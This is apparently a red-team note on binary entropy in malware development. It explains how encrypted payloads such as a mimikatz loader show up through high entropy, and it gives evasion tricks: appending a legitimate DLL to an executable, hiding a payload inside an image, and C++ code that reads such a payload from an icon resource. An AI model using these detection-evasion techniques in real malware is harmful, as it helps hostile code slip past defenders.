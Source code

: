 ```yaml
---
title: Binary Entropy
category: Maldev-Basis
order: 5
---
```


Binary entropy is a concept used in information theory to measure the randomness or uncertainty of a binary sequence. 
In the context of detecting malware, binary entropy can be used to analyze the characteristics of a binary file and determine whether it exhibits suspicious or malicious behavior.

Looking the entropy the encrypted payload can be easily detected.

We can see the binary entropy of a file with `Helenium Hex Editor` software.

As an example here we can see a basic loader that has mimikatz encrypted.

![](/rtnotes/images/entropy-mimi.png)


There are some tricks to bypass entropy defensive measures.

* Concatenate a legitimate dll.

```
type c:\Windows\System32\kernel32.dll >> bin.exe
```

* Use a image and load it from resources.

```
type payload.bin >> a.jpg
```

> **Note**: We need to know the original size of the image.


Example of loading the payload appended to an image from `.rsrc` section.

```cpp
#include <Windows.h>
#include "resources.h"
#include <stdio.h>

#define IMAGE_LEN  196676 //len in bytes of the original image

int main(int argc, char ** argv) {

    PVOID lpAddress;
    SIZE_T sDataSize;
    HGLOBAL resHandle = NULL;
	HRSRC res;

    //Read Payload from favicon.ico
    unsigned char * payload;
	unsigned int payload_len;
    res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (unsigned char *) LockResource(resHandle) + IMAGE_LEN;
	payload_len = SizeofResource(NULL, res) - IMAGE_LEN;
    sDataSize = payload_len;

    return 0;
}
```